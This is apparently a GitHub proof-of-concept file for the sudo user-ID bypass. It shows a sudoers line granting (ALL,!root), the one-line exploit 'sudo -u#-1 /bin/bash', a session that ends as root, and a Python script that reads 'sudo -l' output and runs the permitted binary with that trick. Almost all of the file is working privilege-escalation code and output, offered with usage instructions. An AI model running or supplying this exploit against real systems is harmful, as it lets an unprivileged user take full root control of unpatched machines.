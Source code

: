 ```py

User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

How to use :
python3 sudo_exploit.py

'''


#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```
